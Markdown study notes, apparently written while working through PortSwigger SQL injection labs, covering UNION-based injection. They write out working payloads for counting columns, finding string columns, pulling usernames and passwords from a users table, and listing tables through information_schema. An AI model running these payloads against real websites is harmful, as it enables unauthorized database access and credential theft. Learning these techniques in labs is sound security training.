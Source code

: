 # SQL Injections

Most SQL Injections occur in the SELECT clause hoever we can also expand to other attacks such as the SQL [Union](https://www.w3schools.com/sql/sql_union.asp) attacks.
Union attacks are quite restrictive since they require
- The two queries return the same number of columns
- Data types between queries must be compatible

Since Union appends the results from the first query with the results of the second query (by column)

To find the number of columns we can utilizes the ORDER BY sent in a where clause i.e.,

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
[Using Unions and Null values](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/determining-the-number-of-columns-required-6r5t)

Or using union select and a number of null values. Since NULL is compatible with every common data type, and we must have all values returns by the injected select to be compatible with. If successfull the result returns an additional row with all NULL values in the columns, however is succestuble to NULL POINTER EXCEPTION

```
UNION SELECT NULL [,NULL]--
```

![Lab discover columns](./labfindcols.png)

In this lab we discover the number of columns in a SQL query notice after trying three NULLs there is an extra row of NULLS at the bottom!

## [Database specific queries](https://portswigger.net/web-security/sql-injection/cheat-sheet)
Oracle requires the use of the FROM after a SELECT call. We may use DUAL which is a default table always available

On mySQL the comment commnad `--` should always be followed by a SPACE


## Looking for string data

String data usually is what we want to exfiltrate from the website, hence looking for a column that is compatible with string data comes in handy the typical way is to submit SQL UNION statements with a string character i.e.,`'a'` and check that the website response.

E.g. ' UNION SELECT 'a',NULL,NULL,NULL -- 

![StringData](./stringdata.png)

In this lab we send the SQL query when looking for accesories


> Database names and columns are difficult to find. Sometimes we need to guess however, all moderns Databases have a function to examine the tables and columns, if only we can access that functionality... 


### Lab Usefull data
In this lab we have discovered a SQL vulnerability in the filtering of the website. Now hypothetically assume there is a table called users with a username and password column.. ah now we can use a modified query to extract this data

```
UNION SELECT username,password FROM users --
```

lab solved


> Internal Server Error : Indicators of SQL server processing command and giving response

## Combining columns in SQL from the database

In ORACLE we can use the double pipe to concatonate columns

```
' UNION SELECT username || '~' || password FROM users--
```

In this case we join the fields with a '~'. Concatonation may be diffrent depending on the database

![lab_complte](./simplelab.png)


## Gather the information about the DATABASE!
Information gathering is the most important step of trying to break in!
- What type and version of database are they running
- What tables and columns do they contain

This can be done by doing these queries:

```
Database type	    Query
Microsoft, MySQL	SELECT @@version
Oracle	            SELECT * FROM v$version
PostgreSQL	        SELECT version()
```

To aqcuire the table and columns we can attempt to use information schemas. i.e.,

 `SELECT * FROM information_schema.tables`

 ![tables](./tables.png)

and further more we can query the columns using 

`SELECT * FROM information_schema.columns WHERE table_name = 'Users'`

![columns](./lab_examining_db/columns.png)

## [Lab SQL Injection Examining Database](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle#) 

First we try this query on the known SQLi vulnerable filter 
> Food & Drink ' UNION SELECT table_name,NULL FROM information_schema.tables --

![res](./lab_examining_db/tab_tables.png)
We get alot of tables but looking through the [html](./lab_examining_db/labTB_return1.html)
two tables stick out sticks out from the query results
- pg_user
- pg_auth_members

Lets check the user table with the next query

> Accessories ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'pg_user' -- 

And we get these columns aha!
![column_good](./lab_examining_db/table_columns.png)

Lets finally check what the column consist of by doing a union on usename and passwd

Hmm the passwords are not in cleartext infact they are just ****** symbols?![dead_end](./lab_examining_db/deadend.png)

Dead end!

